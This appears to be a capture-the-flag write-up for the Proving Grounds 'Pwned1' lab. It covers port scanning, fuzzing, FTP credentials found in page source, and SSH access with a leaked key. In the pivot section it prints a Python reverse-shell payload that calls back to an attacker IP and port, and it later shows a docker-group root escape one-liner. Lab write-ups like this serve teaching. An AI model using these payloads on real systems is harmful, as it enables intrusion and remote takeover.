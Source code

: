 ----------------

### CTF: Proving Grounds
### Lab: Pwned1

----------------

![image](https://github.com/user-attachments/assets/18f57589-c5bf-4539-aedc-79653559e814)

----------------

### Reconnaissance

- Rustscan's output

          ❯ rustscan -a 192.168.234.95 -- -Pn -sC -sV
          .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
          | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
          | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
          `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
          The Modern Day Port Scanner.
          ________________________________________
          : https://discord.gg/GFrQsGy           :
          : https://github.com/RustScan/RustScan :
           --------------------------------------
          🌍HACK THE PLANET🌍
          
          [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
          [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
          [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
          Open 192.168.234.95:22
          Open 192.168.234.95:21
          Open 192.168.234.95:80
          [~] Starting Script(s)
          [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
          
          Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
          [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-30 04:16 EDT
          NSE: Loaded 156 scripts for scanning.
          NSE: Script Pre-scanning.
          NSE: Starting runlevel 1 (of 3) scan.
          Initiating NSE at 04:16
          Completed NSE at 04:16, 0.00s elapsed
          NSE: Starting runlevel 2 (of 3) scan.
          Initiating NSE at 04:16
          Completed NSE at 04:16, 0.00s elapsed
          NSE: Starting runlevel 3 (of 3) scan.
          Initiating NSE at 04:16
          Completed NSE at 04:16, 0.00s elapsed
          Initiating Parallel DNS resolution of 1 host. at 04:16
          Completed Parallel DNS resolution of 1 host. at 04:16, 0.02s elapsed
          DNS resolution of 1 IPs took 0.02s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
          Initiating Connect Scan at 04:16
          Scanning 192.168.234.95 [3 ports]
          Discovered open port 22/tcp on 192.168.234.95
          Discovered open port 21/tcp on 192.168.234.95
          Discovered open port 80/tcp on 192.168.234.95
          Completed Connect Scan at 04:16, 0.15s elapsed (3 total ports)
          Initiating Service scan at 04:16
          Scanning 3 services on 192.168.234.95
          Completed Service scan at 04:17, 6.41s elapsed (3 services on 1 host)
          NSE: Script scanning 192.168.234.95.
          NSE: Starting runlevel 1 (of 3) scan.
          Initiating NSE at 04:17
          Completed NSE at 04:17, 6.67s elapsed
          NSE: Starting runlevel 2 (of 3) scan.
          Initiating NSE at 04:17
          Completed NSE at 04:17, 1.28s elapsed
          NSE: Starting runlevel 3 (of 3) scan.
          Initiating NSE at 04:17
          Completed NSE at 04:17, 0.00s elapsed
          Nmap scan report for 192.168.234.95
          Host is up, received user-set (0.14s latency).
          Scanned at 2024-09-30 04:16:58 EDT for 15s
          
          PORT   STATE SERVICE REASON  VERSION
          21/tcp open  ftp     syn-ack vsftpd 3.0.3
          22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
          | ssh-hostkey: 
          |   2048 fe:cd:90:19:74:91:ae:f5:64:a8:a5:e8:6f:6e:ef:7e (RSA)
          | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDaQPyAx8qSGlWyyuL5xu/6lWdbWs6VArMlRC71wt11kYKMGUTuVmPvLAdSAL66haaz0DCvquZMOmeYNHvM7/OjfmkwlIt3Wv53q/23AODRwPGkpj00QCNH/Vqt6Aw94Afo3etyW9SU3vzLC2F3mS18cqXApmV90NIH3d6ayhsDP+aPuQFoFqEzDxzy2RkosueaEERECT0auT+pTIwRMCHBEVX98Srd8+ax1yhWITRTGOYXcdocx0m9tooFUEH/a1P3RK3gBzCL63ZejMN9YofBl8y+CwCt+0nBLg+PtNjjskD9CaBwxUmH0/UM24z9BQecPn3IFmm3+P5U0z1DQEhf
          |   256 81:32:93:bd:ed:9b:e7:98:af:25:06:79:5f:de:91:5d (ECDSA)
          | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDHWpwgF92XD4REIANL7X9lMcQSwcbhlNqwBvNi8l4SzQn5MjSzlBQzgcC7Kro57lCr0kImH+XdijG+r6lyps70=
          |   256 dd:72:74:5d:4d:2d:a3:62:3e:81:af:09:51:e0:14:4a (ED25519)
          |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHPgRt1LF33Ttn5DuGuJJpmgbMd2ofAkqEt6gTOQK+WW
          80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
          |_http-server-header: Apache/2.4.38 (Debian)
          | http-methods: 
          |_  Supported Methods: HEAD GET POST OPTIONS
          |_http-title: Pwned....!!
          Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

- FFUF's output

![image](https://github.com/user-attachments/assets/29cfa229-23a8-424f-8693-fa43002fc684)

- Robots.txt reveals two hidden directories

![image](https://github.com/user-attachments/assets/e541a09d-7f8e-4ea1-a167-19355b60a497)

- `Hidden_text` directory contains a wordlist for directory fuzzing

![image](https://github.com/user-attachments/assets/49e8a81c-7c3e-4f3f-91d0-4a170d2d6968)

- I fuzzed for directories with the wordlist and got one file match.

![image](https://github.com/user-attachments/assets/79ebe5ad-2f70-4cc0-b359-d4588500b256)

- Checking the source of `pwned.vuln` reveals  ftp creds

![image](https://github.com/user-attachments/assets/cdefa81c-731e-4490-8dd3-eb91b43a17b9)

- Ftp acesss as ftp user

![image](https://github.com/user-attachments/assets/99a559df-4dcb-46d4-8390-f4a18d927ed5)

- The share directory contains a note.txt and an id_rsa file

![image](https://github.com/user-attachments/assets/2122b286-7e81-4f08-8409-9a892a2e165d)

- The note.txt points to a user `ariana`

![image](https://github.com/user-attachments/assets/1dce5721-fb14-462c-be47-c792418671d4)

- SSH access as user `ariana`

![image](https://github.com/user-attachments/assets/b3dab1fb-5643-4fa1-bd01-a7379f900004)


### Pivoting to user `selena`

- I ran `sudo -l` which shows that we can run a shell script as user `selena`.

![image](https://github.com/user-attachments/assets/980768fc-a372-470a-aeaa-d7078bb3a4e2)

- I checked the shell script and discovered that we can execute shell commands with string stored in variable `msg` which is executed when it gets to statement `$msg 2</dev/null`.

![image](https://github.com/user-attachments/assets/7252a0b1-5147-4aec-bf9c-0a4f5bc8879e)

- I created a bash script in directory `tmp` and added a rev bash shell code to it.I applied this method to call the script later in `messenger.sh`.

   PAYLOAD-:```echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.156\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"bash\")'" > /tmp/script;chmod +x /tmp/script```

![image](https://github.com/user-attachments/assets/406269d1-bafa-46d1-bc63-c33bf8ce5dea)

- Shell as selena

![image](https://github.com/user-attachments/assets/f48f53ba-84d3-4e79-ac31-b534ce1e51b1)

### Privesc with group `docker`

- I ran command `id` and discovered that user `selena` is part of group `docker`.

![image](https://github.com/user-attachments/assets/8db07196-c4f9-4fe7-b4fb-d809b6609fc4)

- I used the payload to spawn a root shell with docker.
  Payload-:```docker run -v /:/mnt --rm -it alpine chroot /mnt bash```

- Root as docker with host root directory mounted in it

![image](https://github.com/user-attachments/assets/ba2d563b-5c52-41f7-aa34-38df0bb05937)















